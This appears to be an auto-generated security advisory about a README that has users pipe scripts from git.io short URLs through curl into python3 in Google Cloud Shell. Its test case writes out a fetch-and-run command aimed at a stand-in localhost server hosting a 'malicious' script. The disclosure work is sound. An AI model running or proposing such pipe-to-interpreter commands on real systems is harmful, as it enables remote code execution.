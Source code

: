 ### Vulnerability List

* Vulnerability Name: Git.io Short URL Compromise leading to Malicious Code Execution
* Description:
    1. The project distributes Python scripts via commands provided in the README.md file. These commands use `git.io` short URLs to fetch the scripts. For example: `python3 <(curl -s -S -L https://git.io/gwmme-create-service-account)`.
    2. A threat actor compromises the `git.io` short URL, for instance, by exploiting a vulnerability in the `git.io` service or by using social engineering to redirect the URL to a malicious destination.
    3. Instead of redirecting to the legitimate script on GitHub, the compromised `git.io` URL now redirects to a malicious Python script hosted by the attacker.
    4. A user, intending to use the provided scripts, follows the instructions in the README.md and copies and pastes the command into their Google Cloud Shell.
    5. The `curl -s -S -L https://git.io/gwmme-create-service-account` part of the command now fetches the malicious script from the attacker's server due to the compromised `git.io` URL. The `-L` flag in `curl` ensures following redirects, which is crucial for this attack.
    6. The `python3 <(...)` part of the command then executes the downloaded malicious script directly within the user's Cloud Shell environment.
* Impact:
    - Complete compromise of the user's Google Cloud environment.
    - Since the scripts are designed to create service accounts with administrative privileges, the Cloud Shell environment in which these scripts are executed likely has significant permissions.
    - A malicious script executed in this context could perform various harmful actions, including:
        - Data exfiltration from Google Cloud Storage, databases, or other services.
        - Data manipulation or deletion within the Google Cloud environment.
        - Resource hijacking or deletion (e.g., deleting VMs, networks).
        - Creation of persistent backdoors by creating new administrative users or service accounts under the attacker's control.
        - Further lateral movement within the user's Google Cloud infrastructure.
* Vulnerability Rank: Critical
* Currently Implemented Mitigations:
    - None. The project relies on the security of the `git.io` URL shortening service, which is outside of the project's control.
    - The use of `curl -s -S -L` flags provides minimal security benefits in this context. `-s` (silent mode) and `-S` (show errors) are not security mitigations. `-L` (follow redirects) is actually necessary for the attack to work if `git.io` is compromised to redirect.
* Missing Mitigations:
    - **Remove reliance on `git.io` short URLs**: Replace the `git.io` short URLs in the README.md with direct, full URLs to the raw scripts on GitHub (e.g., `https://raw.githubusercontent.com/google/create-service-account/main/code/gwmme_create_service_account.py`). This eliminates the single point of failure introduced by the URL shortener.
    - **Implement integrity checks**: Provide checksums (like SHA256 hashes) of the scripts in the README.md. Users should be instructed to manually verify the checksum of the downloaded script before executing it. Alternatively, use digital signatures to sign the scripts and implement a verification step in the execution process, though this might add complexity for users in Cloud Shell.
    - **Display full URL to users**: Even with direct URLs, encourage users to review the URL and the script content before executing it, especially when running scripts with administrative privileges.
    - **Provide alternative installation methods**: Suggest alternative, more secure methods for users to obtain the scripts, such as cloning the entire repository and then running the scripts locally after manual review.
* Preconditions:
    - A threat actor must successfully compromise the `git.io` short URL used by the project.
    - A user must follow the instructions in the README.md and copy and paste the provided command, including the compromised `git.io` URL, into their Google Cloud Shell.
    - The user's Google Cloud Shell environment must have sufficient privileges for the malicious script to cause significant harm. Typically, Cloud Shell environments are configured with user's project-level or higher permissions.
* Source Code Analysis:
    - The vulnerability is not within the Python scripts themselves but in how they are distributed and how users are instructed to execute them.
    - The `README.md` file is the primary source of the vulnerability because it explicitly instructs users to use commands with `git.io` short URLs.
    - Examining the `README.md` file, we find the vulnerable commands under the "Usage" section:
        ```markdown
        ### Google Workspace Migration for Microsoft Exchange (GWMME)
        ```
        ```markdown
        python3 <(curl -s -S -L https://git.io/gwmme-create-service-account)
        ```
        ```markdown
        ### Google Workspace Migrate (GWM)
        ```
        ```markdown
        python3 <(curl -s -S -L https://git.io/gwm-create-service-account)
        ```
        ```markdown
        ### Password Sync
        ```
        ```markdown
        python3 <(curl -s -S -L https://git.io/password-sync-create-service-account)
        ```
    - These commands are directly copy-pastable by users into their Cloud Shell, making them highly susceptible to a `git.io` compromise attack.
    - The Python scripts themselves (`gwmme_create_service_account.py`, `gwm_create_service_account.py`, `password_sync_create_service_account.py`) are designed to perform privileged actions in Google Cloud, which amplifies the impact of the vulnerability if a malicious script is injected.

* Security Test Case:
    1. **Setup a malicious script and HTTP server:**
        - Create a file named `malicious_script.py` with the following content:
            ```python
            #!/usr/bin/python3
            print("Malicious script executed!")
            import os
            os.system("touch /tmp/pwned") # Create a file to indicate successful execution
            ```
        - Start a simple HTTP server serving this script. In a terminal, navigate to the directory containing `malicious_script.py` and run:
            ```bash
            python3 -m http.server 8000
            ```
            This starts a server on `http://localhost:8000`.

    2. **Simulate Git.io Compromise (Local Redirection):**
        - For testing, we will not actually compromise `git.io`. Instead, we will use `localhost` to simulate a compromised short URL.  In a real attack, the attacker would need to compromise the actual `git.io` redirection.
        - We will assume the original `git.io` URL for GWMME was `https://git.io/gwmme-create-service-account`. We will simulate its compromise by using `http://localhost:8000/malicious_script.py` as the malicious URL.

    3. **Prepare the malicious command:**
        - Construct the command that a user would copy, but replace the legitimate `git.io` URL with our malicious URL:
            ```bash
            python3 <(curl -s -S -L http://localhost:8000/malicious_script.py)
            ```

    4. **Execute in Google Cloud Shell:**
        - Open Google Cloud Shell in your Google Cloud project.
        - Copy and paste the malicious command prepared in the previous step into the Cloud Shell prompt and press Enter.

    5. **Verify Malicious Code Execution:**
        - Observe the output in the Cloud Shell. You should see the message "Malicious script executed!".
        - Check if the file `/tmp/pwned` has been created in the Cloud Shell environment by running `ls /tmp/pwned`. If the file exists, it confirms that the malicious script was successfully executed.

    6. **Cleanup:**
        - Stop the HTTP server (if running in the background, find its process ID and terminate it).
        - Remove the `/tmp/pwned` file from Cloud Shell using `rm /tmp/pwned`.

This test case successfully demonstrates that if the `git.io` URL were compromised, a malicious script could be injected and executed within a user's Google Cloud Shell environment by following the project's instructions. This confirms the vulnerability.